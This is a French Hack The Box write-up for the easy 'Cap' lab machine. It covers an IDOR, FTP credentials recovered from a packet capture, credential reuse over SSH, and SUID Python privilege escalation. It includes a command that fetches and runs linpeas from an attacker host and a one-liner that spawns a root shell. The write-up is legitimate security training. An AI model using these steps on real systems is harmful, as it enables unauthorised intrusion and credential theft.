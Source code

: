 # Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```
```markdown
![Nmap results](../HTB/retired/cap/nmap_cap.png)
```
Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)

```markdown
![Wireshark](../HTB/retired/cap/cap_wireshark.png)
```

## Accès FTP & SSH
Connexion au serveur FTP :
```bash
ftp 10.10.11.XXX
```

Les identifiants FTP fonctionnent également pour se connecter en SSH :
```bash
ssh user@10.10.11.XXX
```
Flag user.txt trouvé dans le répertoire home.
```markdown
![FTP](../HTB/retired/cap/co_ftp.png)
```

```markdown
![Userflag and linpeas import](../HTB/retired/cap/cap_user_linpeas.png)
```

## Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
### Sur la machine attaquante
```bash
python3 -m http.server 8000
```

### Sur la cible
```bash
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## SUID Python trouvé :
```bash
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8
```

## Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

On obtient un shell root, puis :
cat /root/root.txt

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |
